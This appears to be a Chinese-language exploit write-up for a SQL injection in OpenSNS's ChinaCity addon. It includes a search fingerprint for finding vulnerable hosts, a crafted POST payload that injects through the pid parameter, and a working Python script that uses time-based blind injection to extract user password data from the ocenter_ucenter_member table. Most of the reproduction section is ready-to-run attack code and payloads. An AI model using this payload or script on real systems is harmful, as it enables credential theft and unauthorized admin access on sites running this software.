



# OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下


存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`



其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句



通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```


通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

